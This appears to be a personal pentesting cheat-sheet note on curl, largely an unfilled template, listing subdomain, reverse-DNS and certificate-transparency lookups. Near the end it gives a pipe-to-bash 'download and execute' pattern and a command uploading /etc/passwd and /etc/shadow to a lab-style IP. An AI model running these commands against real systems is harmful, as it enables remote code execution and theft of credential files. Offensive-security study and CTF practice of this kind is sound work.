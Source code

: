 # curl

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

### Category 1

All subdomains for a given domain.
```bash
curl -s https://sonar.omnisint.io/subdomains/{domain} \| jq -r '.[]' \| sort -u
```

All TLDs found for a given domain.
```bash
curl -s https://sonar.omnisint.io/tlds/{domain} \| jq -r '.[]' \| sort -u
```

All results across all TLDs for a given domain.
```bash
curl -s https://sonar.omnisint.io/all/{domain} \| jq -r '.[]' \| sort -u
```

Reverse DNS lookup on IP address.
```bash
curl -s https://sonar.omnisint.io/reverse/{ip} \| jq -r '.[]' \| sort -u
```

Reverse DNS lookup of a CIDR range.
```bash
curl -s https://sonar.omnisint.io/reverse/{ip}/{mask} \| jq -r '.[]' \| sort -u
```

Certificate Transparency.
```bash
curl -s "https://crt.sh/?q=${TARGET}&output=json" \| jq -r '.[] \| "\(.name_value)\n\(.common_name)"' \| sort -u
```
^curl-category3

SSL certificate checks can be skipped using the cURL `-k` flag.
Example:
```shell
curl -k https://google.com/
```

Download a file
```bash
curl -o path url
```
^simple-download

Download and execute file in memory.
```bash
curl -o path url | bash
```
^fileless-download

```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
^upload-multiple-files-insecure




## Syntax I Forget

- Flag or option I always look up
- Parameter format I can't remember
- Output options or file formats

## When I Use This vs Alternatives

- **Use this tool when:** Specific circumstances
- **Use alternative when:** When other tools are better
- **Combines well with:** Tools that work together with this

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #curl
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#curl #tool
